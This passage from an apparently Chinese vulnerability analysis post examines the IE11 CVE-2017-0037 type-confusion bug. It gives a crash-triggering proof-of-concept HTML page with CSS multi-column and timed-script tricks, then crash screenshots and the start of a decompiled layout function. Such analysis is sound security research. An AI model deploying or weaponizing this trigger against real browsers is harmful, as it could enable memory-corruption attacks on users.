 ```
&lt;!-- saved from url=(0014)about:internet --&gt;
&lt;style&gt;
.class1 `{` float: left; column-count: 5; `}`
.class2 `{` column-span: all; columns: 1px; `}`
table `{`border-spacing: 0px;`}`
&lt;/style&gt;
&lt;script&gt;
function boom() `{`
  document.styleSheets[0].media.mediaText = "aaaaaaaaaaaaaaaaaaaa";
  th1.align = "right";
`}`
&lt;/script&gt;
&lt;body onload="setInterval(boom,100)"&gt;
&lt;table cellspacing="0"&gt;
&lt;tr class="class1"&gt;
&lt;th id="th1" colspan="5" width=0&gt;&lt;/th&gt;
&lt;th class="class2" width=0&gt;&lt;div class="class2"&gt;&lt;/div&gt;&lt;/th&gt;
```

结果

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/xinali/img/master/blog/%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/IE11%20CVE-2017-0037%20Type%20Confusion%E5%88%86%E6%9E%90/1544779599878.png)

崩溃调用栈

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/xinali/img/master/blog/%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/IE11%20CVE-2017-0037%20Type%20Confusion%E5%88%86%E6%9E%90/1544779934252.png)

分析`HandleColumnBreakOnColumnSpanningElement`函数

```
signed int __fastcall Layout::MultiColumnBoxBuilder::HandleColumnBreakOnColumnSpanningElement(Layout::ContainerBoxBuilder *a1, Tree::ANode *a2, int a3)
`{`
  int v3; // esi
  Layout::ContainerBoxBuilder *v4; // eax
  int v5; // ecx
  int v6; // ecx
  bool v7; // zf
  Layout::ContainerBoxBuilder *v8; // ebx
  int v9; // eax
  Tree::ANode *v10; // eax
  Tree::ANode *v11; // edi
  char v13; // al
  int v14; // eax
  int v15; // eax
  _DWORD *v16; // ebx
  _DWORD *v17; // eax
  char v18; // al
  int v19; // eax
  int v20; // [esp+0h] [ebp-2Ch]
  char v21; // [esp+Ch] [ebp-20h]
  Tree::ANode *v22; // [esp+14h] [ebp-18h]
  _DWORD *v23; // [esp+18h] [ebp-14h]
  int *v24; // [esp+1Ch] [ebp-10h]
  int v25; // [esp+20h] [ebp-Ch]
  Layout::ContainerBoxBuilder *v26; // [esp+24h] [ebp-8h]
  bool v27; // [esp+2Bh] [ebp-1h]

```